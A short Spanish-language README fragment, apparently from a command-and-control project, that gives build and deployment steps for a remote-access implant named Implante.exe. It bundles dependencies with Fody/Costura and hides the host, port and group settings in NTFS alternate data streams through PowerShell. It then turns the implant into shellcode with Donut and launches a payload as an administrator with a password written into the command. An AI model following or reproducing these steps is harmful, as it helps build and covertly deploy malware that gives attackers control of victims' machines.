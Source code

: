 
Instalar using Newtonsoft.Json;

Instalar fody y costura.fody
```
dotnet add package Fody --version 6.8.0
dotnet add package Costura.Fody --version 5.7.0
```

Compilar

## Establecer host puerto y grupo
```powershell
Set-Content -Path ".\Implante.exe:Route" -Value "127.0.0.1"; Set-Content -Path ".\Implante.exe:Port" -Value "4000"; Set-Content -Path ".\Implante.exe:Group" -Value "Grupo"
```
Donut
```
.\donut.exe -a 2 -f 1 -i Implante.exe -o loader.bin
```

```
exec_as administrador admin4191 ".\Application Windows.exe" &
```


 dir ..\Implants\windows\no_ssl\base.exe: